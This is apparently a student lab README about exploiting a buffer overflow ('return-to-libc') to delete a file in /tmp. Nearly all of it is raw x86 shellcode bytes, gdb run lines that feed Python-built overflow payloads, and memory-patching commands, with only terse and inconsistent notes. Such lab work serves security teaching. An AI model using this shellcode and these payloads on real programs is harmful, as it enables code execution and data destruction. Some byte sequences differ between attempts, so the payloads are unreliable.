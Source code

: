 # Lab3

## Exploit return-to-lib-c vulnerability, delete file "dummy" in directory /tmp/dummy using environment variable.

\xeb\x1a\xb8\xa8\x90\x04\x08\xe8\x15\x00\x00\x00\x89\xc3\x31\xc0\xb0\x08\x04\x02\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe1\xff\xff\xff\x8b\x44\x24\x04\xc3

72 = 38 (shellcode) + 30 (placement code) + 4 bytes(return address);

>r $(python -c "print('\xeb\x1a\xb8\xa8\x90\x04\x08\xe8\x15\x0f\x0f\x0f\x89\xc3\x31\xc0\xb0\x08\x04\x02\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe1\xff\xff\xff\x8b\x44\x24\x04\xc3'+'a'*30+'\xff\xff\xff\xff')")


# now
>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x74\x6d\x70\x2f\x64\x75\x6d\x6d\x79\x0f'+'a'*32+'\xff\xff\xff\xff')")


>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

>x/80xb $esp

>set *0xffffd6eb=0x61616100

>set *0xffffd70c=0xffffd6c8

>set *0xffffd6d1=0xffffd6e2


>export my_path='tmp/dummy'
>printenv